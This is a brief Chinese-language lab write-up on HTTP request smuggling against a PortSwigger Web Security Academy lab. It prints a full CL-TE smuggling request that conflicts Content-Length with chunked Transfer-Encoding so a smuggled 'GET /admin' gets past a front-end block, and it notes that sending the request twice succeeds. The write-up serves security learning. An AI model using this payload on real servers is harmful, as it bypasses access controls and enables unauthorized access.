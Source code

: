 >   本实验涉及前端和后端服务器，前端服务器不支持分块编码。 /admin 有一个管理面板，但前端服务器阻止访问它。
>
>   要解决实验室问题，请向访问管理面板并删除用户 carlos 的后端服务器发送请求。

这个lab是使用admin删除carlos用户。

直接访问`/admin`的话会显示：`"Path /admin is blocked"`

这里我选择的是CL-TE，发送如下请求：

```http
POST / HTTP/1.1
Host: 0a8600f1034842adc0f77d2e00360034.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=FSDE0lrTI1tuBNQJt4RSqapGBCHSKent
Content-Length: 30
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1


```

发送两次后：

![image-20221007000035006](2022-10-HTTP/image-20221007000035006.png)
